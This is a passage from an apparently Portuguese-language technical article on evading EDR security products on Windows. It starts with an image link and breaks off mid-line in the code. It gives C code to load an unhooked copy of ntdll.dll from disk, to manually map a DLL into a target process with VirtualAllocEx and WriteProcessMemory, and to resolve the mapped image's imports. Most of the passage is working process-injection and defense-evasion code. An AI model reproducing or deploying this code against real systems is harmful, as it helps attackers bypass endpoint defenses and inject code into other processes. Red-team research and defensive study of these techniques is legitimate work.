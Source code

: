 ```
```

Na segunda etapa, temos o foco de carregar versão original da `ntdll.dll` sem modificações do EDR. Podemos fazer isso a partir do disco, onde ela não esta modificada.

```
HANDLE hFile = CreateFile(L"C:\\Windows\\System32\\ntdll.dll", 
                         GENERIC_READ, FILE_SHARE_READ, 
                         NULL, OPEN_EXISTING, 0, NULL);

HANDLE hMapping = CreateFileMapping(hFile, NULL, PAGE_READONLY, 0, 0, NULL);
LPVOID cleanDll = MapViewOfFile(hMapping, FILE_MAP_READ, 0, 0, 0);
```

Na terceira etapa, o mapeamento manual de DLL implementa, em espaço de usuário, uma versão customizada do **PE loader do Windows**. Em vez de usar o carregador do sistema (por exemplo LoadLibrary), a técnica lê o ficheiro PE (DLL) do disco, interpreta os seus cabeçalhos (DOS e NT) e recria manualmente a imagem na memória do processo alvo. 
```
void* ManualMap(HANDLE process, BYTE* dllData) {
    IMAGE_DOS_HEADER* dosHeader = (IMAGE_DOS_HEADER*)dllData;
    IMAGE_NT_HEADERS* ntHeader = (IMAGE_NT_HEADERS*)
        (dllData + dosHeader->e_lfanew);
    
    void* baseAddr = VirtualAllocEx(process, NULL,
        ntHeader->OptionalHeader.SizeOfImage,
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    WriteProcessMemory(process, baseAddr, dllData,
        ntHeader->OptionalHeader.SizeOfHeaders, NULL);
    
    IMAGE_SECTION_HEADER* section = IMAGE_FIRST_SECTION(ntHeader);
    for (int i = 0; i < ntHeader->FileHeader.NumberOfSections; i++) {
        WriteProcessMemory(process,
            (char*)baseAddr + section[i].VirtualAddress,
            dllData + section[i].PointerToRawData,
            section[i].SizeOfRawData, NULL);
    }
    
    return baseAddr;
}
```
Na quarta etapa, consiste em identificar a tabela de importações presente na imagem PE reconstituída em memória e ligar cada entrada de importação ao endereço efetivo da função exportada correspondente nos módulos dependentes, de modo que as chamadas externas da biblioteca apontem para rotinas válidas no contexto do processo alvo.

```
void ResolveImports(void* baseAddr, BYTE* dllData) {
    IMAGE_NT_HEADERS* ntHeader = GetNTHeaders(dllData);
    IMAGE_IMPORT_DESCRIPTOR* importDesc = 
        GetImportDescriptor(baseAddr, ntHeader);
    
    while (importDesc->Name) {
        char* moduleName = (char*)baseAddr + importDesc->Name;
        HMODULE module = GetModuleHandle(moduleName);
        
        IMAGE_THUNK_DATA* thunk = 
            (IMAGE_THUNK_DATA*)((char*)baseAddr + importDesc->FirstThunk);
        
        while (thunk->u1.AddressOfData) {
            IMAGE_IMPORT_BY_NAME* importByName = 
                (IMAGE_IMPORT_BY_NAME*)((char*)baseAddr + 
                thunk->u1.AddressOfData);
            
            thunk->u1.Function = (ULONGLONG)
```